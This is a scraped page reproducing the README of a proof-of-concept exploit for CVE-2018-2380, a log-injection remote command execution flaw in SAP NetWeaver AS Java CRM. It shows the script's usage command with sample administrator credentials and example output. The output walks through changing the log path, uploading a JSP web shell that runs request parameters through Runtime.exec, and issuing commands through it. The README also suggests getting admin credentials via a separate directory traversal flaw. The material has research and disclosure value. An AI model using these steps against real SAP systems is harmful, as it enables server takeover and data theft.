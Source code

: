 # CVE-2018-2380

PoC of Remote Command Execution via Log injection on SAP NetWeaver AS JAVA CRM

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/erpscanteam](https://github.com/erpscanteam) |
| Url      | [https://github.com/erpscanteam/CVE-2018-2380](https://github.com/erpscanteam/CVE-2018-2380)                                               |
| Stars    | 55                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2018-2380* exploit* sap

</details>

## Readme

# CVE-2018-2380 (CVSS v3 Base Score: 6.6/10)
PoC of Remote Command Execution via Log injection on SAP NetWeaver AS JAVA CRM
Script usage example 
```
python crm_rce-CVE-2018-2380.py --host 127.0.0.1 --port 50001 --username administrator --password 123QWEasd --SID DM0 --ssl true
```

Where
--host is a SAP server IP
--port SAP NetWeaver AS Java port
username and password of SAP administrator you can get using SAP Redwood directory traversal vulnerability. 


example script usage output
```
C:\exploits\SAP>crm_rce-CVE-2018-2380.py --host 127.0.0.1 --port 50001 --username administrator --password 123QWEasd --SID DM0 --ssl true

 _______  _______  _______  _______  _______  _______  _
(  ____ \(  ____ )(  ____ )(  ____ \(  ____ \(  ___  )( (    /|
| (    \/| (    )|| (    )|| (    \/| (    \/| (   ) ||  \  ( |
| (__    | (____)|| (____)|| (_____ | |      | (___) ||   \ | |
|  __)   |     __)|  _____)(_____  )| |      |  ___  || (\ \) |
| (      | (\ (   | (            ) || |      | (   ) || | \   |
| (____/\| ) \ \__| )      /\____) || (____/\| )   ( || )  \  |
(_______/|/   \__/|/       \_______)(_______/|/     \||/    )_)
Vahagn @vah_13 Vardanian
Bob @NewFranny
Mathieu @gelim
CVE-2018-2380


[!] Try to get RCE using log injection
[!] Get j_salt token for requests
[!] Login to the SAP portal
[!] Change log path
[!] Upload "Runtime.getRuntime().exec(request.getParameter("cmd")) " shell to https://127.0.0.1:50001/ERPScan_shell_31275.0.jsp?cmd=ipconfig
[!] Restore logs path to ./default_log_name.log
[!] Enjoy!

C:\exploits\SAP>
```



## Get the content

```
git clone https://github.com/erpscanteam/CVE-2018-2380
cd CVE-2018-2380
```

{% embed url="https://github.com/erpscanteam/CVE-2018-2380" %}

<figure><img src="https://avatars.githubusercontent.com/u/35491827?v=4" alt=""><figcaption><p>erpscanteam</p></figcaption></figure>
